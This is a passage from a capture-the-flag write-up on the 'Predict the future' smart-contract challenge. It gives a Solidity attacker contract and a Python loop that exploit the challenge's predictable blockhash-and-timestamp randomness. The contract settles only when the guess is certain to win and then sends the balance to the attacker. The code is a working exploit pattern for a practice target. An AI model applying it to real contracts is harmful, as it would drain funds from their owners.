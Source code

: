 https://ropsten.etherscan.io/tx/0x9127996a2073acf24ecbfbd3b7f2eeba379c91815658b98e641c7035060a1eba

***

### Predict the future

#### Objectives

> This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

> Note that it is indeed possible to solve this challenge without losing any ether.

#### Solution

We have to follow a few steps here:

1. Code and deploy a contract with at least 3 functions:
    + One that locks in the guess (calling `lockInGuess()`)
    + One that calls `settle()` but *only* if it *knows* the guess will work
    + One fallback function to receive ETH

2. The function that calls `settle()` is specially important, it has to generate the answer just like the PredictTheFutureChallenge contract, but it should only attempt to do this settle if the answer is equal to the guess made when we call `lockInGuess()`. I defined it as follows:

```js
function callSettle() public {
    // prevent the tx from continuing if the answer is not going to pass as correct
    uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)))) % 10;
    require(answer == 0, "tx will fail and guesser will be overwritten");

    // make the guess and check if the challenge is complete, otherwise revert
    challenge.settle();
    require(challenge.isComplete(), "challenge not complete yet");
    

    // send funds to my address
    (bool success,) = msg.sender.call{value:address(this).balance}("");
    require(success, "call failed");
}
```

3. Iteratively call this `callSettle()` function until the guess goes through. I did it as follows:

```python
# call settle until it works, because `guess` is already 0
while True:
    # check if the challenge is completed
    result = predict_the_future.isComplete()
    print(f'The challenge is complete: {result}')
    if result:
        break
    
    # call settle
    try:
        attacker.callSettle(_from | {'allow_revert':True})
    except:
        pass

    # check if the guesser has been overwritten
    guesser = web3.eth.get_storage_at(predict_the_future.address, '0x').hex()
    print(f'The guesser is: {guesser}')
    if attacker.address[-40:].upper() != guesser[-40:].upper():
        print('guesser has been overwritten')
        break
```